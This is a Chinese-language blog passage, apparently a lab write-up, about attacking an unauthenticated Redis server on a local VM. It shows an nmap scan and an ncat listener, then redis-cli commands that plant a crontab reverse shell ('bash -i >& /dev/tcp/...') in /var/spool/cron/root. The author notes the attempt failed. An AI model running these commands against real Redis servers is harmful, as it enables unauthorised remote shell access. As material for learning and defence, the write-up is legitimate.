 
![80](http://leiblog.wang/static/image/2020/8/d0YHyw.png)

#### 二、Redis 未授权漏洞攻击(失败了:|

Nmap 扫描后发现主机的 6379 端口对外开放，就可以用本地 Redis 远程连接服务器（redis 在开放往外网的情况下，默认配置下是空口令，端口为 6379）连接后可以获取 Redis 敏感数据。首先扫描一下 redis 服务的详细信息、nmap 有个自动扫描脚本。

```zsh
promote at ~ ❯ nmap -A -p 6379 --script=redis-info 192.168.56.101
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-18 21:55 CST
Nmap scan report for promote.cache-dns.local (192.168.56.101)
Host is up (0.00051s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 3.0.7 (32 bits)
| redis-info:
|   Version: 3.0.7
|   Operating System: Linux 3.19.0-25-generic i686
|   Architecture: 32 bits
|   Process ID: 1185
|   Used CPU (sys): 2.13
|   Used CPU (user): 0.70
|   Connected clients: 1
|   Connected slaves: 0
|   Used memory: 622.68K
|   Role: master
|   Bind addresses:
|     0.0.0.0
|   Client connections:
|_    192.168.56.1
```

利用这个漏洞之前，先在本地侦听一个端口。

```zsh
promote at ~ ❯ ncat -lvnp 7999
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::7999
Ncat: Listening on 0.0.0.0:7999
```

注意到本机的 ip 是：`10.32.187.196`。

连接到 redis-cli，准备利用 crontab 反弹 shell

```zsh
promote at ~ ❯ redis-cli -h 192.168.56.101
192.168.56.101:6379> set x "\n* * * * * bash -i >& /dev/tcp/10.32.187.196/7999 0>&1\n"
OK
192.168.56.101:6379> config set dir /var/spool/cron/
OK
192.168.56.101:6379> config set dbfilename root
OK
192.168.56.101:6379> save
OK
192.168.56.101:6379> keys *
1) "x"
192.168.56.101:6379> get x
"\n* * * * * bash -i >& /dev/tcp/10.32.187.196/7999 0>&1\n"
```
